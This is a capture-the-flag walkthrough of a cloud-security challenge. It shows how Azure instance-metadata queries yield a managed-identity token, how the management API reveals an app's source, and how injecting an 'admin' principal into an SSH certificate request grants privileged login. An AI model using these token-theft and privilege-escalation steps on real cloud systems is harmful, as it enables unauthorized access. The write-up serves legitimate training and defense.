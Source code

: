 # OBJECTIVE 17 - SSHennanigans  


## OBJECTIVE  
Help Alabaster Snowball secure his Azure-based SSH certificate system by exploring how it works and uncovering what kind of cookie cache he's planning to implement.

## Hints

Hints provided for Objective 17  
- If you’re on an Azure VM and the CLI isn’t available, try using the [Azure REST API](https://learn.microsoft.com/en-us/entra/identity/managed-identities-azure-resources/how-to-use-vm-token).  
- Learn more about the [`get-source-control`](https://learn.microsoft.com/en-us/rest/api/appservice/web-apps/get-source-control?view=rest-appservice-2022-03-01) API endpoint to investigate how Azure Function Apps are deployed.  
- Check out [Thomas Bouve’s video](https://www.youtube.com/watch?v=4S0Rniyidt4) to understand SSH certificates.

---

## My Approach

This challenge combined cloud security, SSH certificates, and API exploration — a really fun deep dive!

### Step 1: Generate SSH Certificate  
Alabaster pointed us to the cert generator at:

```
https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl
```

Following [Thomas Bouve’s guide](https://www.youtube.com/watch?v=4S0Rniyidt4), I generated a key pair:

```bash
ssh-keygen -C "SSH Certificate CA" -f ca
```

I then copied the contents of `ca.pub` into the form on the certificate generator page. It returned a signed SSH certificate, which I saved to `SSHCert.pub`.

After trimming off the `principal` key at the end and setting permissions:

```bash
chmod 600 SSHCert.pub
```

I was able to connect using:

```bash
ssh -i ca -i SSHCert.pub monitor@ssh-server-vm.santaworkshopgeeseislands.org
```

Once connected, I was dropped into the **SatTrackr** dashboard. Hitting `Ctrl+C` brought me to the terminal.

---

### Step 2: Understand How Principal Mapping Works  
While exploring the server, I discovered the SSH cert mapping config:

```bash
/etc/ssh/sshd_config.d/sshd_config_certs.conf
```

This pointed to:

```
AuthorizedPrincipalsFile /etc/ssh/auth_principals/%u
```

So I looked inside that folder:

```bash
cat /etc/ssh/auth_principals/alabaster
# admin
cat /etc/ssh/auth_principals/monitor
# elf
```

This showed that:
- `monitor` → `elf`
- `alabaster` → `admin`

Unfortunately, I didn’t have permission to edit the `monitor` principal file, so I needed another way in.

---

### Step 3: Use Azure Instance Metadata to Explore the App  
Following the hint, I queried Azure’s instance metadata:

```bash
curl -s -H Metadata:true --noproxy "*" "http://169.254.169.254/metadata/instance?api-version=2021-02-01" | jq
```

This gave me:
- **Subscription ID:** `2b0942f3-9bca-484b-a508-abdae2db5e64`  
- **Resource Group:** `northpole-rg1`

Next, I retrieved an access token for Azure’s management API:

```bash
curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2021-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq
```

I saved the token to a variable for easier use:

```bash
TOKEN=eyJ0e... (truncated)
```

Now I used Azure’s `get-source-control` REST endpoint:

```bash
curl https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.Web/sites/northpole-ssh-certs-fa/sourcecontrols/web?api-version=2022-03-01 -H "Authorization:Bearer $TOKEN" | jq
```

The result showed the app was deployed from this GitHub repo:  
**`https://github.com/SantaWorkshopGeeseIslandsDevOps/northpole-ssh-certs-fa`**

---

### Step 4: Modify the Certificate Request (ZAP Proxy)  
By reviewing the app’s source code, I found that the API defaults to a `DEFAULT_PRINCIPAL` unless you explicitly pass a `"principal"` in the POST request.

To exploit this, I used **OWASP ZAP** to intercept the POST request when submitting my public key to the certificate generator.

Before forwarding the request, I added:

```json
"principal": "admin"
```

The API responded with a cert that now had `admin` as the principal.

---

### Step 5: Reconnect as Alabaster  
I saved this new cert as `SSHCert_admin.pub` and set permissions:

```bash
chmod 600 SSHCert_admin.pub
```

Then connected using:

```bash
ssh -i ca -i SSHCert_admin.pub alabaster@ssh-server-vm.santaworkshopgeeseislands.org
```

Now I had access to the **alabaster** user account.

In his home directory, I found a file called `alabaster_todo.md`. Reading it revealed the answer:

```
- [ ] Gingerbread Cookie Cache: Implement a gingerbread cookie caching mechanism to speed up data retrieval times.
```

---

## Result

I successfully abused a misconfigured Azure Function App to issue myself an SSH cert with elevated privileges. This allowed me to log in as Alabaster and uncover that he plans to implement a:

**Gingerbread Cookie Cache**

---

## Lessons Learned

This was an excellent real-world example of how multiple small misconfigurations — unsigned certs, exposed metadata endpoints, and poorly secured web APIs — can be chained together for privilege escalation. It also showed how cloud metadata and REST APIs can be leveraged when standard tools like the Azure CLI are missing.
